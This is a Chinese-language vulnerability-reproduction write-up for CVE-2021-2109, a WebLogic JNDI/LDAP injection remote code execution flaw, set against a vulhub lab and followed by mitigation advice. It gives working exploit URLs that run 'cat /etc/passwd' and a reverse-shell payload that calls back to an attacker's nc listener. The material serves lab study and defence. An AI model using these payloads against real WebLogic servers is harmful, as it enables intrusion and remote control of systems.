

# CVE-2021-2109 WebLogic LDAP 远程代码执行漏洞

## Description

2020 年 11 月 19 日，阿里云安全向 Oracle 官方报告了 Weblogic Server 远程代码执行漏洞，漏洞编号为 CVE-2021-2109。攻击者可通过 LDAP 协议，实现 JNDI 注入攻击，加载远程 CodeBase 下的恶意类，最后执行任意代码从而控制服务器。

## 漏洞影响

- WebLogic Server 10.3.6.0.0
- WebLogic Server 12.1.3.0.0
- WebLogic Server 12.2.1.3.0
- WebLogic Server 12.2.1.4.0
- WebLogic Server 14.1.1.0.0

## Explanation of exploit; PoC

### 运行靶场环境

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 `http://your-ip:7001`，看到如下页面即为靶场正常运行。


### 漏洞复现

访问 URL: `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal`, 可以看到如下页面，且在影响范围内则可能存在漏洞。



下载漏洞攻击需要的一款用于 JNDI 注入利用的工具，该工具大量参考/引用了 Rogue JNDI 项目的代码，支持直接植入内存 shell，并集成了常见的 bypass 高版本 JDK 的方式，适用于与自动化工具配合使用。


- 使用 `java -jar JNDIExploit.jar -h` 查看参数说明，其中 `--ip` 参数为必选参数
- 使用 `java -jar JNDIExploit.jar -u` 查看支持的 LDAP 格式

在 kali 运行工具启动 LDAP 服务，`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i xxx.xxx.xxx.xxx`，其中 `xxx.xxx.xxx.xxx` 为 kali 的 IP 地址。


**RCE**

刷新 `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal` 页面，并通过 Burp Suite 拦截请求，发送到 Repeater，修改 `URL` 为 `/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22) `，并添加参数 `cmd` 值为 `cat /etc/passwd`，点击 `Send`，即可看到如下页面，即为成功利用漏洞。

???+ tip "Payload 注意"

    `ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho` 这里 LDAP服务器地址第三个分隔符号为 `;`


**反弹 Shell**

先在 kali 监听 4444 端口，`nc -lvvp 4444`

然后在 Burp Suite 中修改 `URL` 为 `/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/ReverseShell/xxx.xxx.xxx.xxx/4444;AdminServer%22)`

???+ tip "Payload 注意"

    `ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho` 这里 LDAP服务器地址第三个分隔符号为 `;`


看到如下页面，即为成功利用漏洞。


## Mitigation


1. 由于是通过 JNDI 注入进行远程代码执行，建议升级 Weblogic Server 运行环境的 JDK 版本；
2. 升级官方安装补丁：[https://www.oracle.com/security-alerts/cpujan2021.html](https://www.oracle.com/security-alerts/cpujan2021.html)

## 参考链接

1. [漏洞分析见](https://mp.weixin.qq.com/s/wX9TMXl1KVWwB_k6EZOklw)
2. [调试分析参考](https://mp.weixin.qq.com/s/WtoUzPEgLlU8jUzvzC75Dg)
3. [Oracle 发布 2021 年 1 月关键补丁更新，修复多个严重漏洞](https://mp.weixin.qq.com/s/gRgrzgkgeehT1DnnlnqQKw)
